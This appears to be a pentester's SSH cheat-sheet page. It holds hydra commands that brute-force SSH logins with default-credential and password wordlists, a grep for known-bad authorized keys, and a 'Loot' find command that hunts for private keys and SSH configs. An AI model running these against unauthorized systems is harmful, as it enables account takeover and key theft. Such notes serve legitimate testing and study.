 #service 
<% tp.file.rename("1_SSH_")%>
☑️
#### Bad Keys
Get entries from targets `authorized_keys` file. Then:
```
auth_key="";grep -lr $auth_key /home/kali/Documents/SSHKeys/
```
#### Bruteforce default credentials
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt ssh://$hip -V -t 4 -I -s 22
```
Or for a given user:
```bash
hydra -l $user -P /usr/share/wordlists/rockyou30.txt ssh://$hip -V -t 4 -I -s 22
```
(pass userlist with `-L /usr/share/wordlists/dirb/others/names.txt`)

> Tip: If SSH-Version of target is to low to connect to, try command „kali-tweaks“, select hardening, and toggle „SSH“.

# Loot
```bash
find / -name "ssh_config" -o -name "sshd_config" -o -name "authorized_keys" -o -name "ssh_known_hosts" -o -name ".shosts" -o -name "id_*"
```